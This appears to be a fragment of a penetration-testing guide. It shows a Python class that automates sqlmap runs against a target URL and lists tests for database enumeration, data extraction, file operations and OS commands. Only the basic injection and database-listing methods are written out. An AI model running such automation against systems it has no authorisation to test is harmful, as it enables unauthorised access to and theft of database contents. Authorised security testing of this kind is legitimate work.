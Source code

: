 ### 🛠️ Advanced SQL Injection
```python
# SQLmap automation for comprehensive testing
import subprocess
import json

class SQLInjectionTester:
    def __init__(self, target_url):
        self.target_url = target_url
        self.results = {}
    
    def comprehensive_test(self):
        """Perform comprehensive SQL injection testing"""
        tests = {
            'basic_injection': self.test_basic_injection,
            'database_enumeration': self.enumerate_databases,
            'table_enumeration': self.enumerate_tables,
            'data_extraction': self.extract_data,
            'file_operations': self.test_file_operations,
            'os_commands': self.test_os_commands
        }
        
        for test_name, test_func in tests.items():
            print(f"[*] Running {test_name}")
            result = test_func()
            self.results[test_name] = result
    
    def test_basic_injection(self):
        """Test for basic SQL injection"""
        cmd = [
            'sqlmap', '-u', self.target_url,
            '--batch', '--level=3', '--risk=2'
        ]
        
        result = subprocess.run(cmd, capture_output=True, text=True)
        return result.stdout
    
    def enumerate_databases(self):
        """Enumerate available databases"""
        cmd = [
            'sqlmap', '-u', self.target_url,
            '--batch', '--dbs'
        ]
        
        result = subprocess.run(cmd, capture_output=True, text=True)
        return result.stdout
```

</div>

<div>
